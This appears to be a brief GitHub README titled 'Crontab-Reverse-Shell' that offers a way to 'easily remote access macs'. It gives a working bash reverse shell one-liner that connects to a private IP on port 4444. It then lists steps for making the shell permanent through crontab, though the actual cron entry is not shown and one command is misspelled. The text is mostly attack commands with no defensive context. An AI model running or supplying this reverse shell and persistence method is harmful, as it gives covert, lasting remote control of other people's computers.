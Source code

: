 # Crontab-Reverse-Shell
To easily remote access macs.

Temporary:
bash
bash -i >& /dev/tcp/10.211.55.7/4444 0>&1

Permanent
bash
EDITOR=nano crontab -e

CTRL + O
Enter
CTRL + X

crontan -l
